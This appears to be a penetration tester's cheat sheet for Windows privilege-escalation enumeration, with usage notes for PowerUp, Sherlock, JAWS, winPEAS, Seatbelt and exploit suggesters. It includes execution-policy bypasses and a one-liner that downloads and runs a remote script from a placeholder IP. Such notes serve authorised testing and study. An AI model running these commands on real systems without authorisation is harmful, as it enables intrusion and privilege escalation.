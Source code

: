 # enumeration auto

## Path fix

```powershell
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%

Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted
```

## Check Arch, Process, Release ID

[get OS info from version](https://docs.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-osversioninfoexa?redirectedfrom=MSDN#remarks)

```powershell
PS> [system.environment]::Is64BitOperatingSystem
PS> [system.environment]::Is64BitProcess
> echo %PROCESSOR_ARCHITECTURE%

PS > Get-ComputerInfo | select WindowsProductName, WindowsVersion, OsHardwareAbstractionLayer
PS> (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" -Name ReleaseId).ReleaseId
PS> (Get-WmiObject -class Win32_OperatingSystem).Caption
PS> [System.Environment]::OSVersion.Version
```

## [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) | [JAWS.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1) | [enjoiz-privesc.ps1](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

{% tabs %} {% tab title="PowerUp.ps1" %}

```powershell
# located at /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
[OR]
PS> . .\PowerUp.ps1
PS> Invoke-AllChecks
```

{% endtab %}

{% tab title="Sherlock.ps1" %}

```powershell
> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
[OR]
PS> . .\Sherlock.ps1
PS> Find-AllVulns
```

{% endtab %}

{% tab title="JAWS.ps1" %}

```powershell
# located at /opt/JAWS/jaws-enum.ps1

> powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('http://IP/jaws.ps1')
```

{% endtab %}

{% tab title="enjoiz-privesc.ps1" %}

```powershell
# located at /opt/Privesc/privesc.ps1
> powershell.exe -exec bypass -Command "& {Import-Module .\p.ps1; Invoke-Privesc -Groups 'Users,Everyone,Authenticated Users' -Whoami -Extended -Long}"
```

{% endtab %} {% endtabs %}

## [winPEAS ](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)| [Seatbelt ](https://github.com/GhostPack/Seatbelt)| [SharpUp](https://github.com/GhostPack/SharpUp)

{% tabs %} {% tab title="winPEAS" %}

```powershell
# need .NET 4.0
# cmd check
> dir /b %windir%\Microsoft.NET\Framework\v*
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4" /s

# check for .NET using PS
PS> cmd.exe /c dir /b %windir%\Microsoft.NET\Framework\v*
PS> Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

winPEASany.exe quiet [cmd fast] [flag]
# systeminfo; userinfo; processinfo;
# servicesinfo; applicationsinfo; networkinfo;
# windowscreds; browserinfo; filesinfo; eventsinfo
```

{% endtab %}

{% tab title="Seatbelt" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\Seatbelt.exe -group=[all | <check>] -outputfile="FULL-PATH"
```

{% endtab %}

{% tab title="SharpUp" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\SharpUp.exe
```

{% endtab %} {% endtabs %}

## [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | [wes-ng](https://github.com/bitsadmin/wesng)

{% tabs %} {% tab title="windows-exploit-suggester" %}

```bash
# needs python2
# copy .
# FIX: python2 -m pip install 'xlrd==1.2.0'

./windows-exploit-s.py --update
./windows-exploit-s.py -d <DB-FILE> -i <SYSTEMINFO.txt> [--hotfixes <>]

# if cannot get hotfixes using systeminfo
wmic qfe list full
```

{% endtab %}

{% tab title="wes-ng" %}

```bash
python3 /opt/wesng/wes.py sys.txt --update
python3 /opt/wesng/wes.py systeminfo.txt [--exploits-only] -o wes.csv
# --impact | -i "Remote Code Execution" | "Elevation of Privilege"
# --severity critical
```

{% endtab %} {% endtabs %}

{% embed url="https://github.com/SecWiki/windows-kernel-exploits" %}
